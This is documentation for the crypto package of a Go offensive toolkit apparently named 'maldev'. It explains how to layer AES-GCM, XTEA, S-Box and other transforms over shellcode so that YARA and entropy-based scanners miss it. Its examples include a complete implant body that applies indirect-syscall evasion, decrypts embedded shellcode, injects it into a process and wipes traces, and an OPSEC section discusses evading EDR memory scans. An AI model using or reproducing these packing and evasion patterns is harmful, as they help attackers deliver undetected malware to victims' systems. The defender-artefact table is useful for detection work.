

# Payload encryption & obfuscation

[← crypto index](README.md) · [docs/index](../../index.md)

## TL;DR

Three-tier toolkit: AEAD ciphers (AES-GCM, XChaCha20-Poly1305) for the
outer envelope; lightweight stream/block ciphers (RC4, TEA, XTEA) for
in-process unpackers; signature-breaking permutations (S-Box, Matrix
Hill, ArithShift, XOR) to defeat YARA byte patterns. Pure Go, no CGo,
cross-platform.

Recommended layer stack:

```text
implant.exe disk bytes
    │
    ├─ Layer 1: signature-breaking permutation (S-Box / XOR)
    │           Defeats static YARA on the encrypted blob.
    │
    ├─ Layer 2: lightweight cipher (RC4 / TEA)
    │           In-process unpacker — minimal footprint.
    │
    └─ Layer 3: AEAD outer envelope (AES-GCM)
                Authenticated; tampering detection.
```

## Primer — vocabulary

Six terms recur on this page:

> **AEAD (Authenticated Encryption with Associated Data)** —
> cipher mode that produces both ciphertext AND an
> authentication tag. Decrypting with the wrong key OR
> tampered ciphertext fails loudly (tag mismatch). AES-GCM and
> XChaCha20-Poly1305 are the AEAD modes shipped here. Always
> use AEAD for the outer envelope so on-disk corruption fails
> early instead of producing garbage shellcode.
>
> **Nonce / IV** — single-use bytes that randomise the cipher's
> output so the same key + plaintext doesn't always produce the
> same ciphertext. Reusing a nonce with the same key catastrophically
> breaks security (key recovery for stream ciphers, plaintext
> recovery for AES-GCM). XChaCha20's 24-byte nonce is large
> enough that random nonces practically never collide.
>
> **Authentication tag** — fixed-size value (16 bytes for
> AES-GCM) appended to the ciphertext. Checked on decryption;
> any byte flip in the ciphertext makes the tag mismatch.
>
> **Stream cipher** — produces a keystream of pseudorandom
> bytes XOR'd with plaintext. RC4 is the canonical example.
> No authentication; no nonce (just a key). Cheap to
> implement; never use as outer envelope (no tampering detection).
>
> **Permutation** — reversible byte rearrangement (S-Box,
> Matrix Hill, ArithShift) that defeats YARA static rules
> looking for a known byte pattern. Doesn't add entropy —
> just shuffles. Pair with a real cipher beneath.
>
> **YARA** — defender's pattern-matching language. Rules describe
> byte sequences ("look for `\xE9\x4D\x32\xCB`"). Layered
> permutation + cipher means the disk artefact never matches
> any byte sequence the implant author or attacker tooling
> baseline contains.

## Pick the primitive

Side-by-side. Pick the row whose tradeoffs match the deployment
context, then click through to the API Reference for that
function.

| Primitive | Layer | Speed | Entropy profile | Key | Nonce / IV | Authenticated | Reversible | Static signature | Best for |
|---|---|---|---|---|---|---|---|---|---|
| **AES-GCM** | AEAD outer | fast (AES-NI) | uniform high (256 bits) | 32 B | 12 B random | ✅ tag | yes | low (random) | Default outer envelope; tampering detection mandatory. |
| **XChaCha20-Poly1305** | AEAD outer | fast | uniform high | 32 B | 24 B random | ✅ tag | yes | low | AES-NI absent; misuse-resistant nonce (24 B random ≈ unique). |
| **RC4** | Stream | very fast | uniform | 5–256 B | none | ❌ | yes | YARA: keystream bias | Cheap unpacker between layers; never as outer envelope. |
| **TEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Tiny block primitive when binary footprint matters. |
| **XTEA** | Block (64-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | Same as TEA but with corrected key schedule. |
| **Speck-128/128** | Block (128-bit) | very fast | uniform | 16 B | none (ECB) | ❌ | yes | low | NSA 2013 ARX cipher; ~30 B/round of x86-64 asm — preferred when stage-1 stub needs a real cipher but can't afford AES's S-box. |
| **XOR** | Stream | trivial | matches key length | any | implicit | ❌ | yes | YARA: visible key | Dev / scratch only; never alone in production. |
| **S-Box (substitute)** | Permutation | very fast | uniform when keyed | 256-byte table | none | ❌ | yes (`Reverse*`) | breaks byte-frequency YARA | Layer between AES-GCM and embed to flatten histograms. |
| **Matrix Hill** | Permutation | medium (per-row) | uniform | 4×4 / 8×8 matrix | none | ❌ | yes | breaks contiguous-byte YARA | Defeat contiguous-byte signatures; pair with S-Box. |
| **ArithShift** | Permutation | very fast | non-uniform | 1–4 B | none | ❌ | yes | low | Cheap layer that produces *non*-uniform entropy — masks an AES blob's "looks-random" tell. |

How to read the matrix:

- **Authenticated** = does the cipher detect tampering on
  decrypt? Only the AEAD ciphers do; everything else returns
  "decrypted" garbage on bit-flips. Always run an AEAD as the
  outermost layer if integrity matters.
- **Static signature** = how visible the cipher choice is to a
  YARA scanner. Permutations break histogram / contiguous-byte
  rules; AEAD ciphers leave no static fingerprint at all
  (output is random).
- **Speed** is qualitative. For multi-MB payloads, prefer
  AES-GCM (AES-NI) or XChaCha20-Poly1305 — the rest allocate
  per call.

Composition pattern (build → embed → runtime):

```text
plaintext
  ↓ EncryptAESGCM(key)              [outer AEAD, uniform output]
  ↓ SubstituteBytes(table)          [S-Box: flatten histogram]
  ↓ MatrixTransform(M)              [break contiguous bytes]
  ↓ ArithShift(k)                   [non-uniform entropy mask]
ciphertext bytes embedded into the implant
```

Reverse on the runtime side: `ReverseArithShift` →
`ReverseMatrixTransform` → `ReverseSubstituteBytes` →
`DecryptAESGCM`. **Always** wipe the key buffer with
`memory.SecureZero` immediately after `DecryptAESGCM` returns.

## Primer

Static signatures are the cheapest defender win. A raw shellcode buffer
sitting in a binary's `.data` section gets matched by a four-byte YARA
rule before it ever runs. Encryption breaks that match by replacing the
plaintext with high-entropy gibberish derivable only with the key.

The `crypto` package layers three protection levels. The **outer
envelope** uses an authenticated cipher (AEAD) — anything else risks an
attacker tampering with the ciphertext to redirect execution. The
**stream/block layer** is for tiny in-process unpackers where AES-GCM is
overkill but a passable cipher is still wanted. The **transform layer**
mutates byte distribution without giving cryptographic confidentiality —
useful when the goal is breaking signatures rather than hiding intent.

The package is pure Go, has no CGo dependencies, cross-compiles to
Linux/Windows/macOS targets, and avoids syscalls entirely (every operation
is a constant-time arithmetic transform on a buffer).

## How it works

```mermaid
flowchart LR
    SC[raw shellcode] -->|build time| ENC[crypto.EncryptAESGCM]
    ENC --> STAGE1[ciphertext + nonce]
    STAGE1 -.optional.-> WRAP[crypto.EncryptXTEA + SubstituteBytes]
    WRAP --> EMBED["go:embed in implant"]
    EMBED -->|runtime| LOAD[load embedded blob]
    LOAD --> UNWRAP1[ReverseSubstituteBytes + DecryptXTEA]
    UNWRAP1 --> DEC[crypto.DecryptAESGCM]
    DEC --> WIPE_K[memory.SecureZero AES key]
    WIPE_K --> EXEC[inject.Inject]
    EXEC --> WIPE_P[memory.SecureZero plaintext]
```



Build-time: encrypt with AEAD, optionally wrap in cheaper layers.
Runtime: peel layers in reverse, wipe the key the moment the AEAD `Open`
returns, inject, wipe the plaintext.

### AES-GCM internals



The 12-byte random nonce is **prepended** to the output, so callers do
not manage nonces. Re-encrypting the same plaintext yields a different
ciphertext every time.

### TEA / XTEA round equation

64 rounds, 32-bit half-blocks, 128-bit key:

$$
\begin{aligned}
\text{sum} &\mathrel{+}= \delta \\
v_0 &\mathrel{+}= ((v_1 \ll 4) + k_0) \oplus (v_1 + \text{sum}) \oplus ((v_1 \gg 5) + k_1) \\
v_1 &\mathrel{+}= ((v_0 \ll 4) + k_2) \oplus (v_0 + \text{sum}) \oplus ((v_0 \gg 5) + k_3)
\end{aligned}
$$

with $\delta = \texttt{0x9E3779B9}$ (golden ratio constant). XTEA fixes
TEA's equivalent-key weakness by mixing the round counter into the key
schedule, but the structure is the same.

### Matrix (Hill cipher mod 256)

For an $n \times n$ key matrix $K$ over $\mathbb{Z}_{256}$ with
$\gcd(\det K, 256) = 1$, encryption operates per $n$-byte block $\vec{p}$:

$$
\vec{c} = K \vec{p} \mod 256
$$

`NewMatrixKey(n)` searches random matrices until one is invertible mod
256. The inverse is precomputed and returned alongside.

## API Reference

Package: `crypto` ([pkg.go.dev](https://pkg.go.dev/github.com/oioio-space/maldev/crypto)).
Every primitive is pure Go — no syscalls beyond the OS CSPRNG that key
generators consult. None require elevated privileges; all run on any
Go-supported platform (the per-entry **Required privileges** / **Platform**
fields say `none` / `any` unless the entry calls out a Windows-specific
detail).

### `NewAESKey() ([]byte, error)`

- godoc: generate a fresh 32-byte AES-256 key from `crypto/rand`.
- Description: convenience wrapper over the OS CSPRNG. Useful when the operator wants a fresh per-implant or per-session key without dragging in `crypto/rand` directly.
- Parameters: none.
- Returns: 32 random bytes; `error` wrapping `crypto/rand` failure (rare — OS entropy exhaustion).
- Side effects: one CSPRNG read.
- OPSEC: invisible. Reads `RtlGenRandom` / `BCryptGenRandom` on Windows.
- Required privileges: none.
- Platform: any.

### `EncryptAESGCM(key, plaintext []byte) ([]byte, error)`

- godoc: AES-256-GCM AEAD encryption with a fresh random 12-byte nonce.
- Description: the package's default outer envelope. The nonce is prepended to the ciphertext so callers do not manage nonces; re-encrypting the same plaintext yields a different ciphertext every call.
- Parameters: `key` — 32 bytes (AES-256; shorter / longer returns an error). `plaintext` — payload to encrypt, any length including zero.
- Returns: `nonce ‖ ciphertext ‖ tag` (12 + `len(plaintext)` + 16 bytes); `error` for invalid key length or `crypto/rand` failure.
- Side effects: allocates `len(plaintext) + 28` bytes.
- OPSEC: very-quiet. Pure userland arithmetic; AES-NI accelerated on modern x64.
- Required privileges: none.
- Platform: any.

### `DecryptAESGCM(key, ciphertext []byte) ([]byte, error)`

- godoc: inverse of `EncryptAESGCM`. Extracts the prepended nonce, verifies the GCM tag, returns the plaintext.
- Description: tag verification means a wrong key, truncated ciphertext, or any single-bit tampering returns an error rather than garbage. Pair with `crypto.UseDecrypted` to wipe the plaintext after consumption.
- Parameters: `key` — same 32-byte key used to encrypt; `ciphertext` — output of `EncryptAESGCM` (must be at least 28 bytes).
- Returns: original plaintext; `error` for invalid key length, ciphertext too short, or authentication-tag failure.
- Side effects: allocates `len(ciphertext) - 28` bytes.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `NewChaCha20Key() ([]byte, error)`

- godoc: generate a fresh 32-byte XChaCha20-Poly1305 key.
- Description: same shape as `NewAESKey`; only the cipher choice differs.
- Parameters: none.
- Returns: 32 random bytes; `error` for `crypto/rand` failure.
- Side effects: one CSPRNG read.
- OPSEC: invisible.
- Required privileges: none.
- Platform: any.

### `EncryptChaCha20(key, plaintext []byte) ([]byte, error)`

- godoc: XChaCha20-Poly1305 AEAD encryption with a fresh random 24-byte nonce.
- Description: misuse-resistant — the 24-byte random nonce is large enough that birthday-collision risk is negligible across implant lifetimes. Prefer over AES-GCM on targets without AES-NI (older CPUs, ARM) where pure ChaCha20 is faster.
- Parameters: `key` — 32 bytes; `plaintext` — any length.
- Returns: `nonce ‖ ciphertext ‖ tag` (24 + `len(plaintext)` + 16 bytes); `error` for invalid key length or `crypto/rand` failure.
- Side effects: allocates `len(plaintext) + 40` bytes.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `DecryptChaCha20(key, ciphertext []byte) ([]byte, error)`

- godoc: inverse of `EncryptChaCha20`.
- Description: same tag-verification semantics as `DecryptAESGCM` — tampering returns an error.
- Parameters: `key` — 32 bytes; `ciphertext` — output of `EncryptChaCha20`.
- Returns: plaintext; `error` for invalid key length, short ciphertext, or tag failure.
- Side effects: allocates `len(ciphertext) - 40` bytes.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### Streaming AEAD — `NewAESGCMWriter` / `NewAESGCMReader` / `NewChaCha20Writer` / `NewChaCha20Reader`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/crypto#NewAESGCMWriter)

For multi-MB / multi-GB payloads where loading the whole plaintext
into memory is impractical (large PE drops, dump-and-encrypt
pipelines, C2 transport with backpressure), the streaming variants
wrap any `io.Writer` / `io.Reader` and frame the AEAD output into
64 KiB plaintext chunks.

```go
w, _ := crypto.NewAESGCMWriter(key, sink)         // io.WriteCloser
defer w.Close()                                    // MUST — emits final frame
io.Copy(w, payloadReader)                          // streams in 64 KiB frames

r, _ := crypto.NewAESGCMReader(key, sink)         // io.Reader
plaintext, _ := io.ReadAll(r)                      // streams out
```

**Frame format (on the wire):**

```
[4-byte BE header][sealed bytes (ciphertext + 16-byte tag)]
  bit 31     = final flag (1 on the last frame)
  bits 0-30  = sealed length (bounded to chunk + Overhead)
```

**AAD per frame:** `8-byte BE counter || 1-byte final flag`. The
AEAD authenticates both — flipping the final bit, reordering frames,
or omitting a frame all surface as `Open` failures (or, for the
truncation case, as `ErrStreamTruncated`).

- Parameters: `key` — 32 bytes (both AES-GCM and XChaCha20-Poly1305);
  `w` / `r` — any `io.Writer` / `io.Reader`.
- Returns: `io.WriteCloser` / `io.Reader`; constructor error for
  invalid key length.
- Side effects: peak memory bounded by 64 KiB plaintext + AEAD
  Overhead; per-frame allocations eliminated (nonce / AAD / Seal /
  Open buffers all reused on the struct).
- OPSEC: same as the one-shot variants — pure cryptographic ops.
  The framing is observable to a network sniffer (4-byte headers
  + sealed chunks at regular intervals) but the chunks are
  ciphertext-indistinguishable from random.
- Required privileges: none.
- Platform: cross-platform.

> [!IMPORTANT]
> Caller MUST `Close()` the writer. Close emits the final-marked
> frame; without it, a reader returns [`ErrStreamTruncated`] on
> the last `Read`. Idempotent — duplicate `Close` calls are no-ops.

### `EncryptRC4(key, data []byte) ([]byte, error)`

- godoc: RC4 stream cipher. Symmetric — call again with the same key to decrypt.
- Description: provided for compatibility with Metasploit's `rc4` payload format and other CS-style legacy stagers. Not for confidentiality on its own.
- Parameters: `key` — 1–256 bytes; `data` — any length.
- Returns: XORed buffer (same length as input); `error` for empty key.
- Side effects: allocates `len(data)` bytes.
- OPSEC: keystream bias is detectable across long ciphertexts. Layer over an AEAD if used.
- Required privileges: none.
- Platform: any.

> [!CAUTION]
> RC4 is cryptographically broken (biased keystream, related-key
> attacks). The only legitimate use case in this package is matching
> Metasploit's `rc4` payload format on the handler side.

### `XORWithRepeatingKey(data, key []byte) ([]byte, error)`

- godoc: XOR each byte of `data` with the cyclic key. Symmetric.
- Description: trivially reversible by anyone who knows or can guess any plaintext byte. Use only as a layer atop an AEAD — the value is signature-breaking, not confidentiality.
- Parameters: `data` — any length; `key` — at least 1 byte (zero-length returns an error).
- Returns: XORed buffer; `error` for empty key.
- Side effects: allocates `len(data)` bytes.
- OPSEC: very-quiet but trivially reversible if any plaintext is known.
- Required privileges: none.
- Platform: any.

### `EncryptTEA(key [16]byte, data []byte) ([]byte, error)`

- godoc: TEA block cipher (8-byte block, 64 rounds), PKCS#7-padded.
- Description: tiny implementation (a few dozen lines of arithmetic) — useful when binary footprint matters more than cryptographic strength. ECB mode, so identical blocks encrypt identically; layer with `EncryptAESGCM` for confidentiality.
- Parameters: `key` — exactly 16 bytes (typed `[16]byte` so the compiler enforces it); `data` — any length (padded internally to a multiple of 8).
- Returns: ciphertext, length rounded up to the next multiple of 8; `error` only on padding failure (impossible with valid input).
- Side effects: allocates the padded ciphertext.
- OPSEC: ECB-mode block reuse is visible on highly-repetitive plaintexts.
- Required privileges: none.
- Platform: any.

> [!WARNING]
> TEA has an equivalent-key weakness — every key has three "siblings"
> that produce the same ciphertext. Prefer XTEA for new code.

### `DecryptTEA(key [16]byte, data []byte) ([]byte, error)`

- godoc: inverse of `EncryptTEA`. Strips PKCS#7 padding.
- Description: rejects ciphertexts that are not a multiple of 8 bytes or whose padding bytes don't validate.
- Parameters: `key` — same 16-byte key; `data` — TEA ciphertext.
- Returns: plaintext; `error` for misaligned input or padding failure.
- Side effects: allocates `len(data)` bytes (then re-slices for padding).
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `EncryptXTEA(key [16]byte, data []byte) ([]byte, error)`

- godoc: XTEA block cipher — TEA with a corrected key schedule.
- Description: same 8-byte block / 64-round structure as TEA, but the round counter is mixed into the key schedule, eliminating TEA's equivalent-key weakness. Recommended over TEA for any new code.
- Parameters: `key` — 16 bytes; `data` — any length, padded internally.
- Returns: ciphertext, length rounded up to next multiple of 8; `error` only on padding failure.
- Side effects: allocates the padded ciphertext.
- OPSEC: same ECB-mode caveats as TEA.
- Required privileges: none.
- Platform: any.

### `DecryptXTEA(key [16]byte, data []byte) ([]byte, error)`

- godoc: inverse of `EncryptXTEA`.
- Description: rejects misaligned input or invalid PKCS#7 padding.
- Parameters: `key` — 16 bytes; `data` — XTEA ciphertext.
- Returns: plaintext; `error` for misalignment or bad padding.
- Side effects: allocates the plaintext.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `EncryptSpeck(key [16]byte, data []byte) ([]byte, error)`

- godoc: Speck-128/128 block cipher (NSA, 2013) — 128-bit block, 128-bit key, 32 rounds, ECB mode with PKCS#7 padding.
- Description: ARX (add-rotate-xor) design — round function is three 64-bit operations on two state words, no S-box. Reference asm fits in ~30 bytes per round on x86-64, making this the lightweight cipher of choice when a stage-1 stub needs a real block primitive but cannot afford AES's S-box (~256 B table) or RC4's keystream bias.
- Parameters: `key` — exactly 16 bytes (compile-time enforced via `[16]byte`); `data` — any length, PKCS#7-padded internally to 16-byte block boundary.
- Returns: ciphertext, length rounded up to next multiple of 16; `error` only on padding failure (impossible for valid input).
- Side effects: allocates the padded ciphertext.
- OPSEC: ECB mode is visible on highly-repetitive plaintexts. Pair with [SBox](#newsbox-sbox-256byte-inverse-256byte-err-error) or layer under AES-GCM when blocks repeat.
- Required privileges: none.
- Platform: any.

> [!NOTE]
> Speck/Simon were withdrawn from ISO 29192-2 standardization in 2018
> after disagreement over NSA's design rationale; the cipher itself
> has no known practical break against the 32-round 128/128 variant
> as of the 2024 cryptanalysis state-of-the-art.

### `DecryptSpeck(key [16]byte, data []byte) ([]byte, error)`

- godoc: inverse of `EncryptSpeck`. Strips PKCS#7 padding.
- Description: rejects ciphertexts that are not a multiple of 16 bytes or whose padding bytes don't validate.
- Parameters: `key` — same 16-byte key; `data` — Speck ciphertext.
- Returns: plaintext; `error` for misalignment or padding failure.
- Side effects: allocates `len(data)` bytes (then re-slices for padding).
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `NewSBox() (sbox [256]byte, inverse [256]byte, err error)`

- godoc: generate a random byte permutation and its inverse.
- Description: a non-linear mixing layer between cryptographic stages. The forward and inverse tables are computed once at build time (or implant init) and applied byte-by-byte via `SubstituteBytes` / `ReverseSubstituteBytes`. Pair with an AEAD outer envelope to flatten byte-frequency YARA rules.
- Parameters: none.
- Returns: forward permutation table, inverse permutation table, `error` wrapping `crypto/rand` failure.
- Side effects: 256 CSPRNG reads (Fisher-Yates shuffle).
- OPSEC: invisible.
- Required privileges: none.
- Platform: any.

### `SubstituteBytes(data []byte, sbox [256]byte) []byte`

- godoc: apply the S-Box byte-by-byte.
- Description: pure permutation — output length matches input. Pair with `ReverseSubstituteBytes` to undo.
- Parameters: `data` — any length; `sbox` — forward table from `NewSBox`.
- Returns: substituted buffer.
- Side effects: allocates `len(data)` bytes.
- OPSEC: byte-frequency histogram changes shape (the whole point) but the operation itself leaves no syscall trail.
- Required privileges: none.
- Platform: any.

### `ReverseSubstituteBytes(data []byte, inverse [256]byte) []byte`

- godoc: inverse of `SubstituteBytes`.
- Description: same shape as `SubstituteBytes` but consumes the inverse table.
- Parameters: `data` — substituted bytes; `inverse` — inverse table from `NewSBox`.
- Returns: original buffer.
- Side effects: allocates `len(data)` bytes.
- OPSEC: invisible.
- Required privileges: none.
- Platform: any.

### `NewMatrixKey(n int) (key, inverse [][]byte, err error)`

- godoc: generate a random invertible $n \times n$ matrix mod 256.
- Description: searches random matrices until one is invertible mod 256 ($\gcd(\det K, 256) = 1$). The search is bounded; on rare failures the function returns an error rather than looping forever.
- Parameters: `n` ∈ {2, 3, 4}.
- Returns: key matrix, inverse matrix; `error` for invalid `n` or search exhaustion.
- Side effects: $O(n^2)$ CSPRNG reads per candidate matrix.
- OPSEC: invisible.
- Required privileges: none.
- Platform: any.

### `MatrixTransform(data []byte, key [][]byte) ([]byte, error)`

- godoc: Hill-cipher block transform mod 256 — each $n$-byte block becomes $K\vec{p} \mod 256$, PKCS#7-padded.
- Description: breaks contiguous-byte YARA rules (4-byte / 8-byte signatures over the input no longer apply to the output). Pair with S-Box for combined histogram + contiguity flattening.
- Parameters: `data` — any length, padded internally to a multiple of $n$; `key` — square invertible matrix from `NewMatrixKey`.
- Returns: transformed buffer; `error` for invalid key shape.
- Side effects: per-block allocation of one `[]byte` row vector of length `n`. For a 1 MiB payload with `n=4` that is 262 144 transient allocations on the encryption path (and the same on `ReverseMatrixTransform`). The output buffer is allocated once.
- OPSEC: contiguous-byte signatures of the input no longer match. Output entropy is uniform.
- Required privileges: none.
- Platform: any.

> **Allocation cost.** For multi-MiB payloads where allocator pressure
> matters, use `EncryptAESGCM` / `EncryptChaCha20` as the outer
> envelope and apply `MatrixTransform` only to a small key/header
> chunk.

### `ReverseMatrixTransform(data []byte, inverse [][]byte) ([]byte, error)`

- godoc: inverse Hill-cipher transform.
- Description: strips PKCS#7 padding from the result. Same per-block allocation cost as `MatrixTransform`.
- Parameters: `data` — transformed bytes; `inverse` — inverse matrix from `NewMatrixKey`.
- Returns: original buffer; `error` for invalid key shape, misaligned input, or bad padding.
- Side effects: same per-block allocation profile as `MatrixTransform`.
- OPSEC: invisible.
- Required privileges: none.
- Platform: any.

### `ArithShift(data, key []byte) ([]byte, error)`

- godoc: position-dependent byte add (mod 256) — adds `key[i % len(key)] + i` to each byte.
- Description: produces *non*-uniform output entropy on uniform input — useful as the outermost layer when the goal is hiding "this looks like AES output" from entropy-based scanners. Defeats simple byte-frequency analysis that XOR doesn't.
- Parameters: `data` — any length; `key` — 1–4 bytes typical (longer keys are accepted).
- Returns: shifted buffer; `error` for empty key.
- Side effects: allocates `len(data)` bytes.
- OPSEC: very-quiet, and uniquely useful as a final entropy-mask layer over an AEAD envelope.
- Required privileges: none.
- Platform: any.

### `ReverseArithShift(data, key []byte) ([]byte, error)`

- godoc: inverse of `ArithShift`.
- Description: subtracts `key[i % len(key)] + i` from each byte (mod 256).
- Parameters: `data` — shifted bytes; `key` — same key used for `ArithShift`.
- Returns: original buffer; `error` for empty key.
- Side effects: allocates `len(data)` bytes.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `Wipe(buf []byte)`

- godoc: compiler-resistant memclear over `buf`.
- Description: convenience re-export of `cleanup/memory.SecureZero` so the most common "decrypt → consume → forget" sequence can stay in the `crypto` package without an extra import. Uses runtime-level barriers to defeat the optimiser's dead-store elimination.
- Parameters: `buf` — slice to zero. nil and empty slices are no-ops.
- Returns: nothing.
- Side effects: writes zero bytes to the slice's backing memory.
- OPSEC: defeats heap-scanner / forensic memory-dump recovery of the wiped bytes — provided the plaintext was never copied elsewhere.
- Required privileges: none.
- Platform: any.

### `UseDecrypted(decrypt func() ([]byte, error), fn func([]byte) error) error`

- godoc: scoped plaintext lifetime — runs `decrypt`, hands the resulting plaintext to `fn`, and `defer`-wipes the plaintext before returning.
- Description: the wipe runs even when `fn` returns an error or panics, so the only way to leave plaintext in heap-resident bytes is for `fn` to copy them out — which the doc comment forbids. `decrypt` is a closure rather than a typed function so any decrypt shape (fixed-size keys for TEA/XTEA, AAD-aware AEAD wrappers) fits without per-cipher overloads.
- Parameters: `decrypt` — closure that produces the plaintext (or returns an error); `fn` — consumer that operates on the plaintext in place.
- Returns: the error returned by `decrypt` or `fn`, whichever fired first; `nil` when both succeed.
- Side effects: one decrypt call + one consumer call + one `Wipe` over the plaintext slice.
- OPSEC: this is the canonical "ephemeral plaintext" pattern — combine with `EncryptAESGCM` for confidentiality and `Wipe` (auto-deferred) for cleartext-at-rest mitigation.
- Required privileges: whatever `decrypt` and `fn` themselves require — `UseDecrypted` adds nothing.
- Platform: any.

## Examples

### Simple

```go
key, _ := crypto.NewAESKey()
ct, _ := crypto.EncryptAESGCM(key, []byte("shellcode goes here"))
pt, _ := crypto.DecryptAESGCM(key, ct)
```

See `ExampleEncryptAESGCM` and `ExampleEncryptChaCha20` in
[`crypto_example_test.go`](../../../crypto/crypto_example_test.go) for
runnable variants.

### Composed (with `cleanup/memory` for key wiping)

Decrypt the embedded blob, wipe the key the moment `Open` returns, run
the payload, wipe the plaintext:

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
)

shellcode, err := crypto.DecryptAESGCM(aesKey, encryptedPayload)
if err != nil {
    return err
}
memory.SecureZero(aesKey)

// ... use shellcode ...
memory.SecureZero(shellcode)
```

### Advanced (XTEA + S-Box layered packer)

A two-stage in-process unpacker. The outer S-Box defeats YARA rules that
look at byte distribution; the inner XTEA round destroys whatever
structure leaks through.

```go
import "github.com/oioio-space/maldev/crypto"

// Build time
var xteaKey [16]byte
_, _ = crypto.NewSBox() // warm CSPRNG
sbox, inv, _ := crypto.NewSBox()
copy(xteaKey[:], aesKeyMaterial[:16])

stage1, _ := crypto.EncryptXTEA(xteaKey, shellcode)
packed   := crypto.SubstituteBytes(stage1, sbox)

// Embed `packed` + `xteaKey` + `inv` in the implant.

// Runtime
unsbox  := crypto.ReverseSubstituteBytes(packed, inv)
orig, _ := crypto.DecryptXTEA(xteaKey, unsbox)
```

### Complex (full encrypt → evade → inject → wipe chain)

End-to-end implant body. Apply syscall evasion first, decrypt the
payload, wipe the key, inject through an indirect-syscall caller, wipe
the plaintext.

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

var (
    encrypted []byte // //go:embed payload.aes
    aesKey    []byte // //go:embed key.bin
)

func run() error {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))
    _ = evasion.ApplyAll(preset.Stealth(), caller)

    shellcode, err := crypto.DecryptAESGCM(aesKey, encrypted)
    if err != nil {
        return err
    }
    memory.SecureZero(aesKey)

    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil {
        return err
    }
    if err := inj.Inject(shellcode); err != nil {
        return err
    }
    memory.SecureZero(shellcode)
    return nil
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| High-entropy `.data` / `.rdata` section | Compile-time YARA `entropy >= 7.5`, ML classifiers (PE byte histograms) |
| Decrypt routine signature | Static unpacker fingerprints (e.g. `aes.NewCipher` followed by `cipher.NewGCM` from a non-go-tooling-built binary) |
| Plaintext shellcode in process memory after decrypt | EDR memory scans (Defender's `AMSI`-like for native code, MDE Live Response) |
| Long-lived AES key in heap | YARA scanning of process RWX/RW pages — wipe immediately after `Open` |

**D3FEND counters:**

- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — static executable analysis defeats high-entropy sections via
  unpacker emulation.
- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — process-spawn analysis catches decrypt-then-execute patterns.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA over `.data` after unpacker emulation.

**Hardening:** wipe keys before injection (`cleanup/memory.SecureZero`);
chunk decryption + injection across cache lines so plaintext does not
sit in RWX longer than a few microseconds; pair with sleep-masking
(`evasion/sleepmask`) for long-running implants.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
